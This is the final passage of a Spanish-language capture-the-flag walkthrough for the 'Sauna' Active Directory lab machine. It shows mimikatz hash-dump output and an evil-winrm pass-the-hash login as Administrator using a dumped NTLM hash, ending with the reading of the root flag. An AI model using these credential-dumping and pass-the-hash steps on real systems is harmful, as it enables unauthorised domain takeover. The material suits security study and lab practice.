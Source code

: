 ```bash
    15  a099aa3c81f1affeba59d79a6533f60d
    16  4bae84b8f0b0306788ff9bda4acb3bd4
    17  976d547fb9e04b0ac5ec60508c275da1
    18  50c302b71d0e08a1a2be14b56225645f
    19  edb19e08653443695f6d3599e0a6bddf
    20  c497465ddc6e2fc14cb0359d0d5de7f8
    21  2ed0b4b57196fb190a66224b2b17029f
    22  37d03051ae1cd6046975948564ab01fa
    23  d4c7554fe1beb0ed712f50cfec470471
    24  8df495fe69cdce409b9f04ea04289b9e
    25  40788044be982310920cc0740687fefd
    26  db7f66f1f1a8f46274d20cfdda5b6e1c
    27  d70226ec52f1ef198c2e1e955a1da9b6
    28  abdd681f875a9b3f3a50b36e51692a2c
    29  dcd140a2ce2bf70fed7ac0e2b60d0dee


mimikatz(commandline) # exit
Bye!
*Evil-WinRM* PS C:\Windows\Temp\Privesc> 
```
Fijarse muy bien en la sintaxis de todo en general es importante.

Procedemos a hacer `PassTheHash` con el Hash NTLM encontrado para el user Administrator:
```bash
# evil-winrm -i 10.10.10.175 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
egotisticalbank\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
7ad57cf8f51a37019eaadxxxxxxxxxxxxxxxxxxxx
```
Maquina Sauna Hackeada ~~ Active Directory Path ~~ K0H4ck Yeah
